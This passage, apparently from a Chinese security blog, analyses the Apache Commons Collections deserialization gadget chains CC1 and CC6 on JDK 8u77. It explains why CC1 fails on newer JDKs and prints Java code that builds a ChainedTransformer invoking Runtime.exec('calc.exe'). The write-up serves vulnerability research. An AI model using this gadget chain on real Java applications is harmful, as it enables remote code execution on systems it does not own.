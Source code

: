 同样能够弹出计算器，动调会发现是在这个位置走进了`LazyMap::get`：
![](https://image.silente.top/img/s187.png)

但在大于71的版本上这俩POC均会失效，来试着用`LazyMap`这一款来打打高版本`8u77`：
![](https://image.silente.top/img/s188.png)

`readObject`中并没有直接调用`this.memberValues`，而是新开了一个`Map`对象直接读取字段内容，从而导致之前构造的代理对象并没有在这里发挥作用，因此不能触发代理逻辑；后面又开了一个`LinkedHashMap`，导致整个代码逻辑发生了变化，CC1也就不能进行有效利用。


[readObject'的diff](http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/f8a528d0379d)

### CC6

CC6 是接着 CC1 在高版本下的利用，这里的研究环境是 jdk8u77。

CC1 中的`LazyMap`系列，是调用了`LazyMap::get`从而触发`transformChain`，本地测试时，由于需要让`Map`里不能含有获取的`Key`，所以直接`map.put`并不能触发，通过 idea 搜索关键字找到了一个本地利用点`com.sun.javafx.fxml.expression::get`：
![](https://image.silente.top/img/s189.png)

由于它是抽象类，所以得改成`LiteralExpression`再写POC：

![](https://image.silente.top/img/s191.png)

虽然我本地找到的这个利用点没有反序列化入口，但也揭示了对于高版本的解决思路就是寻找其他路子有无可能触发`LazyMap::get`。

P神给出的是：
`HashMap::readObject->HashMap::hash->TiedMapEntry::hashCode->TiedMapEntry::getValue->LazyMap::get`

首先是`LazyMap`的构造：

```java
Transformer[] fakeTransformers = new Transformer[] {
        new ConstantTransformer(1)
};
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod",
                new Class[] { String.class, Class[].class },
                new Object[] { "getRuntime", new Class[0] }
        ),
        new InvokerTransformer("invoke",
                new Class[] {Object.class, Object[].class },
                new Object[] { null, new Object[0] }
        ),
        new InvokerTransformer("exec",
                new Class[] { String.class },
                new String[] { "calc.exe" }
        ),
        new ConstantTransformer(1),
};
Transformer transformerChain = new ChainedTransformer(transformers);
Map<Object, Object> innerMap = new HashMap<>();
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
```
